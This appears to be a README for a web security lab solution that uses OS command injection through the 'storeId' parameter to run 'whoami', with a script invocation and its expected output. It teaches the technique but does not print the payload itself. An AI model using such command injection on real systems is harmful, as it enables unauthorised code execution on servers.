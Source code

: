 # Hack Steps

1. Inject payload into "storeId" parameter to execute the `whoami` command
2. Observe the `whoami` output in the response

# Run Script

1. Change the URL of the lab
2. Start script

```
~$ python os_command_injection_simple_case.py
```

# Expected Output

```
❯ Injection point: storeId
❯ Injecting payload to execute the `whoami` command.. OK => peter-neh7X6
🗹 Check your browser, it should be marked now as solved
```
